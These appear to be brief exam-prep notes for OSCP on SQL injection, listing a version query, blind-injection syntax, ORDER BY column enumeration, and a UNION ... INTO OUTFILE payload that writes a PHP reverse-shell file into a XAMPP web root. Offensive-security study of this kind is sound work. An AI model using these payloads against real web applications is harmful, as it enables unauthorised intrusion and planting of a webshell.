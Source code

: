 # SQL for OSCP

* select @@version
* select IF\(MID\(x,x,x\) = y,y,y\);
* Getting reverse shell
  * ?id=769 union all select 1,2,3,4,"",6 into OUTFILE 'c:/xampp/htdocs/rev\_shell.php'
  * this is the syntax, now just we need a php reverse shell code on liner.



## Enumeration

* `order by 1` followed by 2, 3, 4.. is used for column enumeration.

